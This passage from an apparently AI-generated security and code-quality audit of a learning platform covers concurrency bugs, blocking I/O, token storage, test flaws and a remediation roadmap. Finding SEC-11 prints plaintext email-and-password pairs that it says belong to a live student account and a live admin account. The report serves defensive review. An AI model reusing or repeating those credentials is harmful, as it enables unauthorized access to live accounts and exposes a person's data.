- **Remediation Strategy:** Store media files on the filesystem or an object storage bucket (S3/Cloudflare R2/Hostinger static storage) and serve them using Nginx, Express `res.sendFile`, or signed CDN URLs. Keep only media metadata (URLs, durations) in the database.

---

### DB-05: Non-Atomic View Count Increment on Video GET Endpoint
- **Severity:** Moderate
- **Subsystem:** Backend / Video Controller
- **Location:** `backend/controllers/videoController.js`, Lines 58–59
- **Root Cause Analysis:** Every GET request to `/api/videos/:id` executes:
  ```javascript
  video.viewCount += 1;
  await video.save();
  ```
- **Impact & Blast Radius:**
  1. Concurrency lost updates: read-modify-write causes simultaneous views to overwrite each other.
  2. Unnecessary write lock on read operations: every read request performs an update query on the `videos` table, creating database contention.
- **Remediation Strategy:** Use `video.increment('viewCount')` for atomic updates, or decouple view count increments to an asynchronous queue or separate tracking endpoint.

---

### DB-06: Unindexed In-Memory Activity Summary Aggregation & JSON Parsing Loop
- **Severity:** Moderate
- **Subsystem:** Backend / Analytics & Dashboard Controller
- **Location:** `backend/controllers/activityController.js`, Lines 64–92
- **Root Cause Analysis:** In `getSummary`, when `countsOnly === 'true'`, instead of using SQL aggregation (`COUNT(*)` grouped by `activityType`), the controller fetches all matching records into Node.js memory (`UserActivity.findAll`) and iterates over every record with a JavaScript `for...of` loop, parsing JSON metadata on each iteration:
  ```javascript
  meta = typeof item.metadata === 'string' ? JSON.parse(item.metadata) : ...;
  ```
- **Impact & Blast Radius:** As user activities accumulate over weeks, this loop introduces heavy CPU latency and garbage collection pressure on the main Node event loop whenever the Dashboard is opened.
- **Remediation Strategy:** Replace the in-memory loop with a database-level aggregation query using `COUNT` and Sequelize `group: ['activityType']`.

---

### DB-07: Catch-All Route Intercepts 404 API Calls Returning 200 OK HTML in Production
- **Severity:** Moderate
- **Subsystem:** Backend / Server Routing
- **Location:** `backend/server.js`, Lines 162–190
- **Root Cause Analysis:** In production mode, the catch-all handler handles all unmatched GET routes:
  ```javascript
  app.get('*', async (req, res) => {
      // ... SEO injection if single-level path ...
      res.sendFile(indexPath);
  });
  ```
  If a client makes a typo or calls a non-existent API route (e.g. `GET /api/v2/unknown`), the request falls through the API routers, hits `app.get('*')`, and returns `index.html` with HTTP 200 OK instead of a 404 JSON response.
- **Impact & Blast Radius:** Mobile and frontend clients expecting JSON receive raw HTML text with status 200, leading to unexpected JSON parse crashes (`Unexpected token '<'`).
- **Remediation Strategy:** Explicitly register an API 404 handler before the frontend catch-all handler:
  ```javascript
  app.all('/api/*', (req, res) => res.status(404).json({ success: false, message: 'API endpoint not found' }));
  ```

---

### DB-08: Synchronous File Reading in SSR Dynamic OpenGraph/SEO Route
- **Severity:** Moderate
- **Subsystem:** Backend / Server Event Loop
- **Location:** `backend/server.js`, Line 179
- **Root Cause Analysis:** In the dynamic SEO tag injection handler:
  ```javascript
  const htmlTemplate = fs.readFileSync(indexPath, 'utf8');
  ```
  `fs.readFileSync` is executed synchronously on every single incoming page request matching a custom slug.
- **Impact & Blast Radius:** Blocking I/O. Under search engine crawlers (Googlebot, Bingbot) or traffic spikes, synchronous file reads block the single-threaded Node.js event loop, spiking Time to First Byte (TTFB) for all concurrent users.
- **Remediation Strategy:** Cache `htmlTemplate` in memory upon server boot or use `fs.promises.readFile`.

---

### DB-09: Additive Migrator Drops Legitimate Custom User Indexes Ending in `_\d+`
- **Severity:** Moderate
- **Subsystem:** Backend / Schema Migrator
- **Location:** `backend/utils/schemaMigrator.js`, Line 30
- **Root Cause Analysis:** On boot, `pruneDuplicateIndexes` executes:
  ```javascript
  const duplicateKeys = keyNames.filter(name => /^[a-zA-Z0-9_]+_\d+$/.test(name));
  ```
  It automatically drops any MySQL index whose name matches `_\d+`.
- **Impact & Blast Radius:** If a developer or DBA purposefully defines an index named `idx_user_progress_1` or `composite_attempt_2`, the migrator silently drops it on every application boot, destroying production indexing strategies.
- **Remediation Strategy:** Specifically target Sequelize auto-alter patterns (e.g. check for identical column definitions or target known duplicate prefixes like `email_`, `googleId_`) rather than dropping all indexes matching a generic digit regex.

---

### DB-10: Unhandled Database Boot Connection Failure Continues Serving Dead Traffic
- **Severity:** Moderate
- **Subsystem:** Backend / Database Lifecycle
- **Location:** `backend/config/database.js`, Lines 78–81
- **Root Cause Analysis:** In `connectDB`:
  ```javascript
  } catch (error) {
      console.error('❌ MySQL Error:', error.message);
      // Removed process.exit(1) — app will keep running even if DB fails
  }
  ```
  If MySQL is unreachable, the error is logged and caught, but the server continues booting and binds to port 5000.
- **Impact & Blast Radius:** Zombie server state. The application announces healthy status to reverse proxies and container orchestrators while every user request immediately crashes with database connection errors.
- **Remediation Strategy:** Exit with `process.exit(1)` when initial database connectivity fails so container managers (Docker, Kubernetes, PM2) can trigger proper restart and alerting policies, or mark health-check endpoints (`/api/health`) as unhealthy (HTTP 503).

---

### DB-11: UTC vs Client Local Date Discrepancy in Gamification Streaks
- **Severity:** Moderate
- **Subsystem:** Backend / Gamification Controller
- **Location:** `backend/controllers/gamificationController.js`, Line 530
- **Root Cause Analysis:** In `completeNode`:
  ```javascript
  // Server-authoritative UTC date (anti-tamper: strictly ignore client-supplied timestamps)
  const todayYMD = new Date().toISOString().split('T')[0];
  ```
  `dateHelper.js` (`getClientDate(req)`) was implemented to account for client timezones, but `completeNode` uses raw UTC date.
- **Impact & Blast Radius:** For users in timezones like IST (UTC+5:30) or JST (UTC+9:00), practicing at 11:30 PM local time on Monday is counted as Monday (UTC), but practicing at 3:00 AM on Tuesday is ALSO counted as Monday (UTC). Conversely, practicing on Tuesday evening may count as Tuesday while an early Wednesday practice skips a calendar day in UTC, breaking legitimate streaks.
- **Remediation Strategy:** Validate client timezone offsets against a permitted drift window (e.g. +/- 14 hours) using `dateHelper.getClientDate(req)` while bounding timestamps to prevent clock spoofing.

---

### DB-12: Race Condition in Daily Quests Generation on Parallel Requests
- **Severity:** Moderate
- **Subsystem:** Backend / Gamification Controller
- **Location:** `backend/controllers/gamificationController.js`, Lines 945–975
- **Root Cause Analysis:** In `getQuests`:
  ```javascript
  let quests = await UserQuest.findAll({ where: { userId, questDate: todayYMD } });
  if (quests.length === 0) {
      // Seed today's 3 quests ...
  }
  ```
  There is no unique constraint on `(user_id, quest_date, quest_type)` in `models/UserQuest.js`, and the check-then-insert is not wrapped in a transaction with an advisory or row lock.
- **Impact & Blast Radius:** If a client initiates two simultaneous requests (e.g., mobile app screen load plus background sync), both see `quests.length === 0`, and both insert 3 quests, resulting in 6 quests and duplicate reward claims.
- **Remediation Strategy:**
  1. Add a unique index on `['user_id', 'quest_date', 'quest_type']`.
  2. Wrap quest generation in a transaction or use `findOrCreate`.

---

### FE-02: Sensitive JWT Stored in Browser `localStorage` (XSS Vulnerable)
- **Severity:** Moderate
- **Subsystem:** Frontend / Authentication Storage
- **Location:** `frontend/src/contexts/AuthContext.jsx`, Lines 19–20
- **Root Cause Analysis:** The JWT access token is stored in `localStorage`:
  ```javascript
  localStorage.setItem('token', token);
  ```
- **Impact & Blast Radius:** JavaScript code running in the application origin has direct read access to the token. Coupled with Stored XSS vulnerabilities (SEC-04, SEC-05), any script injection leads to immediate session hijacking.
- **Remediation Strategy:** Migrate authentication tokens to `httpOnly, Secure, SameSite=Strict` cookies, completely isolating session credentials from client-side JavaScript access.

---

### FE-03: Global Axios Interceptor Forces Destructive Full-Page Reload on Any 401
- **Severity:** Moderate
- **Subsystem:** Frontend / Network Interceptor
- **Location:** `frontend/src/api/axios.js`, Lines 33–37
- **Root Cause Analysis:** The response interceptor executes:
  ```javascript
  if (error.response?.status === 401) {
      localStorage.removeItem('token');
      localStorage.removeItem('user');
      window.location.href = '/login';
  }
  ```
- **Impact & Blast Radius:** If an optional background request (e.g. prefetching audio or checking optional public page permissions) returns a 401, the interceptor immediately clears user state and reloads the browser, abruptly aborting active quizzes or uncommitted note edits.
- **Remediation Strategy:** Handle 401 errors gracefully via React Router navigation and state dispatchers rather than hard `window.location.href` reloads, and allow specific request configs to opt out of auto-redirect.

---

### MOB-02: Monolithic 5,715-Line `lesson_session_screen.dart` Architecture Bottleneck
- **Severity:** Moderate
- **Subsystem:** Mobile (Flutter) / Architecture
- **Location:** `app/dolphincoder/lib/features/gamification/screens/lesson_session_screen.dart`
- **Root Cause Analysis:** A single Dart file spans 5,715 lines of code, implementing state logic, audio playback, speech-to-text recognition, TTS synthesis, 15+ lesson stage widget builders, confetti controllers, interstitial dialogs, and database updates.
- **Impact & Blast Radius:** High memory consumption, excessive widget rebuilds, and extreme maintenance friction. Any modification risks unintentional regressions across all interactive stage mechanics.
- **Remediation Strategy:** Refactor `lesson_session_screen.dart` into modular widget files organized by stage type under `features/gamification/widgets/stages/`, delegating state logic to Riverpod StateNotifiers.

---

### TST-01: Concurrency Tests Tested Against Artificially Serialized SQLite Queue
- **Severity:** Critical
- **Subsystem:** Testing / Concurrency Test Suite
- **Location:** `backend/config/database.js`, Lines 27–34; `backend/tests/concurrency_and_integrity.test.js`
- **Root Cause Analysis:** In `backend/config/database.js`, the test environment hooks Sequelize transactions:
  ```javascript
  // SQLite single-connection transaction queue to safely support concurrent transactions in tests
  const originalTransaction = sequelize.transaction.bind(sequelize);
  let sqliteTxQueue = Promise.resolve();
  sequelize.transaction = function(...args) {
      const next = sqliteTxQueue.then(() => originalTransaction(...args));
      sqliteTxQueue = next.catch(() => {});
      return next;
  };
  ```
  Every concurrent transaction in tests is executed sequentially in a single-file Promise queue to avoid SQLite `SQLITE_BUSY` errors.
- **Impact & Blast Radius:** False Sense of Security. Tests designed to prove thread-safety and concurrency resilience (e.g. `concurrency_and_integrity.test.js`, `multi_instance_challenges.test.js`) are tested against a queue that never executes transactions in parallel. In real production MySQL, true parallel transactions face row locks and pool exhaustion not caught by the test suite.
- **Remediation Strategy:** Run integration and concurrency tests against a real MySQL test container (e.g., using Testcontainers or a dedicated CI MySQL service) without artificial transaction queuing.

---

### SEC-11: Hardcoded Admin and Student Production Credentials in Test Files & Scripts
- **Severity:** Moderate
- **Subsystem:** DevOps / Test Suites & Benchmark Scripts
- **Location:** `backend/tests/hostinger_live.test.js`, Lines 25–33; `backend/tests/hostinger_db_persistence.test.js`, Lines 31–39; `backend/scripts/benchmark_hostinger.js`, Lines 23–31; `backend/seedAdmin.js`, Lines 9–11
- **Root Cause Analysis:** Real plain-text credentials for live test accounts (`dmacaule111@gmail.com` / `Amol0410@@@` and `admin@speedupexam.com` / `Admin@SpeedUp2024!`) are hardcoded as fallbacks directly in source files.
- **Impact & Blast Radius:** Anyone reading the repository has credentials to log into live production accounts, inspect live data, or alter student records.
- **Remediation Strategy:** Remove hardcoded credentials completely; require credentials to be injected exclusively via environment variables (`process.env.TEST_STUDENT_PASSWORD`).

---

### MOB-03: Aggressive 300ms Audio Timeout Triggers Error Cascades on Budget Devices
- **Severity:** Moderate
- **Subsystem:** Mobile (Flutter) / Audio Service
- **Location:** `app/dolphincoder/lib/core/services/sound_effects_service.dart`, Lines 103, 128, 153, 178
- **Root Cause Analysis:** In `SoundEffectsService`, audio playback calls are wrapped with `.timeout(const Duration(milliseconds: 300))`:
  ```dart
  await _popPlayer!.play(...).timeout(const Duration(milliseconds: 300));
  ```
- **Impact & Blast Radius:** On lower-end Android devices, native audio thread initialization or asset decompression occasionally takes 350–500ms. The 300ms timeout throws a `TimeoutException`, catches into the error block, and immediately triggers a secondary playback attempt of the fallback WAV, creating audio glitches and Logcat error clutter.
- **Remediation Strategy:** Increase the playback timeout to at least 1,500ms, or manage playback asynchronously without awaiting the completion of the audio track.

---

### FE-04: Monolithic 1,500+ Line Component Trees Lacking Modularity
- **Severity:** Moderate
- **Subsystem:** Frontend / React Components
- **Location:** `frontend/src/pages/KaraokeNoteReader.jsx` (1,543 lines), `frontend/src/pages/CurriculumPage.jsx` (1,412 lines)
- **Root Cause Analysis:** Massive single-file components mixing audio playback, Web Audio API DSP synthesis, modal management, form editing, pronunciation scoring, and DOM rendering.
- **Impact & Blast Radius:** Inefficient React reconciliation, higher bundle sizes, and increased likelihood of state bugs when maintaining complex interactive features.
- **Remediation Strategy:** Decompose components into dedicated presentational widgets, custom hooks (`useKaraokeAudio`, `useAudioDSP`), and isolated sub-modals.

---

### DEV-01: PM2 Cluster Mode with In-Memory Rate Limiting & File-Based Version Gate
- **Severity:** Moderate
- **Subsystem:** DevOps / Deployment Configuration
- **Location:** `backend/ecosystem.config.js`, Lines 7–8; `backend/server.js`, Lines 36–37; `backend/controllers/adminController.js`, Line 60
- **Root Cause Analysis:** 
  1. `ecosystem.config.js` configures `instances: 'max', exec_mode: 'cluster'`.
  2. `express-rate-limit` uses default in-memory storage. Each cluster worker maintains its own counter.
  3. `adminController.updateAppVersion` writes app version data to a local file (`app_version.json`) using `fs.writeFileSync`.
- **Impact & Blast Radius:**
  1. Rate limiting is multiplied by the number of CPU cores (e.g., 4 cores = 400 auth requests allowed per 15 minutes instead of 100).
  2. Writing `app_version.json` across clustered processes causes file write collisions and desynchronization across multi-server deployments.
- **Remediation Strategy:**
  1. Use Redis as the backing store for `express-rate-limit` (`rate-limit-redis`).
  2. Store app version configuration in the MySQL database rather than writing to local disk files.

---

## 6. Category 3: Minute Severity Issues

### MIN-01: Dead Mongoose Error Handling Branches in Sequelize Error Handler
- **Severity:** Minute
- **Subsystem:** Backend / Error Handling
- **Location:** `backend/middleware/errorHandler.js`, Lines 5–16, 25–29
- **Root Cause Analysis:** Leftover legacy code from when the backend ran on MongoDB/Mongoose:
  ```javascript
  if (err.name === 'CastError') { ... }
  if (err.code === 11000) { ... }
  if (err.name === 'ValidationError') { ... }
  ```
- **Impact & Blast Radius:** Dead code; never triggered because the backend runs exclusively on Sequelize/MySQL.
- **Remediation Strategy:** Clean up obsolete Mongoose checks and focus error handling on `SequelizeValidationError`, `SequelizeUniqueConstraintError`, and HTTP exceptions.

---

### MIN-02: Unreferenced `express-validator` Dependency in Backend `package.json`
- **Severity:** Minute
- **Subsystem:** Backend / Dependencies
- **Location:** `backend/package.json`, Line 20
- **Root Cause Analysis:** `"express-validator": "^7.0.1"` is listed in `dependencies` but is not imported in any route or controller.
- **Impact & Blast Radius:** Dependency bloat; adds unused bytes to `node_modules`.
- **Remediation Strategy:** Either utilize `express-validator` to standardize request validation across controllers, or remove it from `package.json`.

---

### MIN-03: 26 UUID Test Directories Cluttering Root of Flutter Submodule
- **Severity:** Minute
- **Subsystem:** Mobile / Repository Hygiene
- **Location:** `app/dolphincoder/` (e.g. `da5623fa-2568-4204-8a67-830a5685ceec/`, `c7a05586-.../`)
- **Root Cause Analysis:** Automated Flutter tests generated temporary test directories inside the project directory, which are ignored by `.gitignore` pattern `[0-9a-fA-F]*-.../` but remain uncleaned on local disks.
- **Impact & Blast Radius:** Repository clutter and disk space consumption.
- **Remediation Strategy:** Update test setup/teardown hooks to strictly create temporary directories in `Directory.systemTemp` and call `deleteSync(recursive: true)` upon test completion.

---

### MIN-04: Missing Bidirectional HasMany Associations in Sequelize Config
- **Severity:** Minute
- **Subsystem:** Backend / Models
- **Location:** `backend/models/associations.js`, Lines 16–30
- **Root Cause Analysis:** Models define `belongsTo(User)` (e.g. `Note.belongsTo(User)`, `Flashcard.belongsTo(User)`), but the corresponding `User.hasMany(Note)` and `User.hasMany(Flashcard)` declarations are absent.
- **Impact & Blast Radius:** Attempts to query `User.findAll({ include: [Note] })` throw runtime Sequelize association errors.
- **Remediation Strategy:** Define paired bidirectional associations (`User.hasMany(Note, { foreignKey: 'owner' })`) for all entity relationships.

---

### MIN-05: Non-Standard Production Console Logging in Server Startup
- **Severity:** Minute
- **Subsystem:** Backend / Logging
- **Location:** `backend/server.js`, Line 200
- **Root Cause Analysis:** `console.error` is used to log the normal server startup message:
  ```javascript
  app.listen(PORT, () => {
      console.error(`Server running on port ${PORT}`);
  });
  ```
- **Impact & Blast Radius:** Causes process monitoring systems and Logcat/syslog collectors to flag normal startup as an error condition.
- **Remediation Strategy:** Change `console.error` to `console.log` or use a structured logging library (Winston/Pino).

---

### MIN-06: Inconsistent Error Handling Property Access in `SequelizeValidationError`
- **Severity:** Minute
- **Subsystem:** Backend / Error Handling
- **Location:** `backend/middleware/errorHandler.js`, Line 33
- **Root Cause Analysis:** `err.errors.map(val => val.message).join(', ')` lacks optional chaining.
- **Impact & Blast Radius:** If a custom validation error with an undefined `errors` array triggers the handler, a secondary `TypeError: Cannot read properties of undefined (reading 'map')` occurs.
- **Remediation Strategy:** Use optional chaining: `(err.errors || []).map(...)`.

---

### MIN-07: Static String Matching Masquerading as Frontend Unit Tests
- **Severity:** Minute
- **Subsystem:** Frontend / Testing
- **Location:** `frontend/tests/frontend_audit_and_contracts.test.mjs`, Lines 43–98
- **Root Cause Analysis:** Tests load source code using `fs.readFileSync` and check `appJsx.includes('/login')` rather than rendering components with React Testing Library.
- **Impact & Blast Radius:** Tests pass even if components have fatal runtime syntax or render errors.
- **Remediation Strategy:** Implement Vitest or React Testing Library integration tests that mount components and assert real DOM behavior.

---

### MIN-08: Lack of Chunk Splitting Configuration in Vite Config
- **Severity:** Minute
- **Subsystem:** Frontend / Build Configuration
- **Location:** `frontend/vite.config.js`, Lines 4–9
- **Root Cause Analysis:** `vite.config.js` lacks `build.rollupOptions.output.manualChunks` configuration.
- **Impact & Blast Radius:** Heavy administrative libraries, Lucide icons, and chart utilities are bundled into broad vendor chunks rather than being cleanly split.
- **Remediation Strategy:** Configure `manualChunks` in Rollup options to split vendor dependencies into separate cached bundles (`vendor-react`, `vendor-icons`, `vendor-utils`).

---

### MIN-09: Redundant JSON Parse/Stringify Getters on Sequelize TEXT Columns
- **Severity:** Minute
- **Subsystem:** Backend / Models
- **Location:** `backend/models/Quiz.js`, Lines 13–14; `backend/models/Flashcard.js`, Lines 11–12
- **Root Cause Analysis:** `JSON.parse` is executed every time model attributes are accessed in memory, creating minor object allocation overhead.
- **Impact & Blast Radius:** Minor CPU overhead during large batch queries.
- **Remediation Strategy:** Use Sequelize native `DataTypes.JSON` where supported by MySQL, which handles binary JSON decoding natively.

---

## 7. Cross-Cutting Architectural Observations



### Architectural Key Takeaways:
1. **Database Bottleneck:** Storing binary media (`LONGBLOB`) inside MySQL while simultaneously restricting the connection pool to 5 connections represents the single greatest infrastructure risk to platform scalability.
2. **Security Gaps:** The platform relies heavily on client trust. The Google OAuth login fallback to `req.body.email` and the unauthenticated rewarded ad claim route (`/claim-ad-reward`) allow attackers to bypass server validation.
3. **Cross-Platform Divergence:** When backend email verification was introduced, mobile development completed the integration while the web frontend remained incomplete, resulting in broken web user registration.

---

## 8. Prioritized Remediation Roadmap

### Phase 1: Immediate Critical Remediation (Day 1 – 3)
1. **Credentials & JWT Rotation:** Rotate Hostinger MySQL database password and change `JWT_SECRET` immediately.
2. **Patch Google OAuth ATO:** Eliminate `req.body.email` fallback in `authController.googleLogin`. Require verified email in `tokenInfo`.
3. **Add Rate Limiting / Lockout to OTP:** Add attempt counting and a 5-attempt limit to `verifyOtp` and `verifyRegistrationOtp`.
4. **Fix Web Registration Flow:** Build the 6-digit OTP verification screen in React to restore registration for web users.
5. **Expand Database Pool:** Increase `pool.max` from 5 to 25+ in `backend/config/database.js`.

### Phase 2: High Priority Hardening (Week 1 – 2)
1. **XSS Sanitization:** Apply `DOMPurify` on frontend `dangerouslySetInnerHTML` points and sanitize uploaded HTML/SVG files.
2. **Transactional Database Operations:** Wrap `QuizAttempt` deletion and creation in `sequelize.transaction`.
3. **Externalize Binary Audio:** Migrate `karaoke_audios` `LONGBLOB` storage to filesystem static files or cloud storage (S3/R2).
4. **Enforce Curriculum Unique Constraints:** Add unique composite index on curriculum lessons to eliminate duplicate seeding.
5. **Session Invalidation:** Introduce `tokenVersion` on `User` model to invalidate JWTs upon password change or reset.

### Phase 3: Architectural Optimization & Hygiene (Week 3 – 4)
1. **Refactor Flutter Lesson Session:** Break up the 5,715-line `lesson_session_screen.dart` into modular widget classes.
2. **PM2 & Rate Limiting Shared Store:** Migrate rate limiting to Redis for accurate multi-process enforcement.
3. **Move to HTTP-Only Cookies:** Shift token storage from `localStorage` to secure, HTTP-only cookies on the web frontend.
4. **Clean Test Artifacts & Modernize Test Suites:** Purge UUID test directories and run concurrency tests against real MySQL containers.

---
*Report compiled autonomously by Agent 6: Code Quality, Security & Architecture Auditor.*  
*All findings validated against actual codebase source files.*
